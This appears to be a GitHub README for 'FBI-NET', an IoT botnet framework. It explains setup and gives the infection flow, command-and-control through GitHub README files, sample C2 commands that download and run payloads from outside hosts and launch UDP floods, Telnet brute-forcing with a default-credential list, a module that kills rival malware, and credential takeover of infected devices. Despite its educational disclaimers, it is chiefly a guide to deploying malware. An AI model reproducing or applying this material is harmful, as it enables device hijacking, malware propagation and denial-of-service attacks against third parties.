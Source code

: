 * C2 over GitHub raw links (multiple fallback READMEs)
* Brute-force login over Telnet
* Killer module that removes other malware
* "Permakill" feature: changes device login credentials

⚠️ **DISCLAIMER:** This content is strictly for *educational and authorized penetration testing* in controlled lab environments. Misuse of such tools is **illegal**.

---

### 🧠 Project: `FBI-NET`

> A  IoT botnet framework controlled via multiple GitHub `README.md` files. Supports brute-force propagation, malware killing, and credential lockdown.

---
### Guide for .py files
you have to edit  the .py files and confiure them 
snotscan for finding devices
serialkiller for killing other nets 
permakill patches all devices with your own credentials save them securly
thefinalbop puts your payloads into the server
openssh.py is a bot for controlling devices using github Readme.md configure your links inside the code

### ✅ Features

* 📦 **Command & Control** via multiple GitHub `README.md` files
* 🔁 **Fallback Mechanism**: rotates through GitHub links until a working `### run` section is found
* 🕷️ **Brute-Forcing Engine**: cracks Telnet devices using default credentials
* ⚔️ **BotKiller Module**: terminates known malware processes and ports
* 🛡️ **Permakill Mode**: replaces Telnet credentials to block re-infection
* 🚀 **Async-Driven**: high-speed, concurrent scanning and infection

---

### 🗂️ GitHub `README.md` Format (C2)

Each C2 GitHub `README.md` must include a `### run` section:

```
### run
cmd echo Bot active on device
download http://malic.io/payload.sh /tmp/payload.sh RUN
dos 192.168.0.10 80 30
```

**Supported Commands:**

| Command     | Description                                |
| ----------- | ------------------------------------------ |
| `cmd`       | Executes shell commands                    |
| `download`  | Downloads and optionally runs files        |
| `dos`       | Performs a basic UDP DoS attack            |
| `permakill` | Changes device credentials to block access |
| `selfkill`  | Terminates self on the device              |

---

### 🧰 Default Credentials Format

Provide a text file like `creds.txt` with lines:

```
admin:admin
root:1234
user:password
```

---

### 📁 Files & Structure

```bash
bot.py               # Main infection and C2 logic
brute_force.py       # Telnet brute-forcing
killer.py            # Process killer module
permakill.py         # Changes credentials after install
github_c2.py         # C2 polling from multiple README.md links
creds.txt            # Default credential pairs
readmes.txt          # List of GitHub raw README.md C2 links
hits.txt             # Infected and confirmed targets
```

---

### 🚀 Execution Flow

1. Loads GitHub `README.md` URLs from `readmes.txt`
2. Finds the first with a `### run` section
3. Executes each command listed
4. If `brute` is enabled:

   * Scans random IPs
   * Brute-forces Telnet with `creds.txt`
   * On success, runs `bot.py` on target
5. Kills competing malware using `killer.py`
6. Replaces device credentials with `permakill.py` (if `permakill` enabled)

---

### 🧪 Sample C2 Behavior

```
### run
cmd uname -a
download http://your.c2.net/bin/armv7 /tmp/a RUN
permakill newuser:newpass
```

---

### 🛑 Legal Notice

> This project is intended **only** for:
>
> * Ethical hacking education
> * Red team exercises in controlled environments
> * Simulated botnet defense training

**Unauthorized use will violate criminal law.**
Always obtain explicit **written permission** before testing networks or devices.

